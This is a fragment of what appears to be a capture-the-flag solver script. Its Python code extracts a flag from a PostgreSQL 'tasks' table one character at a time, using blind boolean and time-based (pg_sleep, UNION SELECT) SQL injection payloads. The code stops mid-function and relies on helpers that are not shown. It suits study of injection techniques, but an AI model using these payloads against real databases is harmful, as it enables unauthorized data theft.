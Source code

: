 ```ERROR: Flag should start with Securinets{ and end with } (SQLSTATE P0001)```
def is_lowercase(idx):
    print(f"is #{idx} a lowercase?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) ~ '^[a-z]+$') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False


def check_char(idx, char):
    print(f"checking #{idx} for {char}")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) = '?') || '",
        idx,
        char
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

def get_char_interval(idx, base = 'a'):
    print(f"getting interval for #{idx}")
    payload = get_payload(
        "Securinets{}') union select 1 from tasks where pg_sleep(ascii(lower(substring(flag, ?, 1))) - ascii('?')) is not null --",
        idx,
        base
    )
    tick = time.time()
    request(payload)
    tock = time.time()
    took = round(tock - tick)
    return took


def get_char(idx):
    if is_underscore(idx):
        return "_"


    if is_number(idx):
        iv = get_char_interval(idx, '0')
        print("number interval:", iv)
        while True:
            if check_char(idx, str(iv)):
                return str(iv)
            iv -= 1
    
    if is_uppercase(idx):
        iv = get_char_interval(idx)
        print("uppercase interval:", iv)
        while True:
            if check_char(idx, chr(iv + 64)):
                return chr(iv + 64)
            iv -= 1

    if is_lowercase(idx):
        iv = get_char_interval(idx)
        print("lowercase interval:", iv)
```